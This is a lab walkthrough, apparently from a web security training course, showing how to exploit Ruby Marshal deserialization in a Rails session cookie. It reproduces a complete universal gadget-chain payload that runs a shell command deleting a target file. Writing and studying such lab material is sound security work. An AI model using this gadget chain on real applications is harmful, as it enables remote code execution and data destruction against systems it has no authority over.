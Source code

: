 # Exploiting Ruby deserialization using a documented gadget chain
# Objective
This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The session cookie on this webiste holds serialized data. File `phpinfo.php` is accessible for everyone. It contains `SECRET_KEY`.
|![](Images/image-25.png)|
|:--:| 
| *Session cookie* |
|![](Images/image-26.png)|
| *Session cookie decoding* |

## Exploitation
### Framework identification
The cookie holds Ruby (marshaled) serialized data, which can be recognized by starting 2 bytes `\x04\x08` and information from error.

|![](Images/image-27.png)|
|:--:| 
| *Session cookie decoding* |
|![](Images/image-28.png)|
| *Request with modified cookie* |
| Framework information |


### Exploiting Ruby deserialization using a documented gadget chain
Deserialization can be exploited by using [Universal Deserialisation Gadget for Ruby 2.x-3.x](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html). Payload below was later compiled using Ruby `2.7.0`.

Payload:
```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

|![](Images/image-29.png)|
|:--:| 
| *Payload compilation* |
|![](Images/image-30.png)|
| *Deletion of target file* |

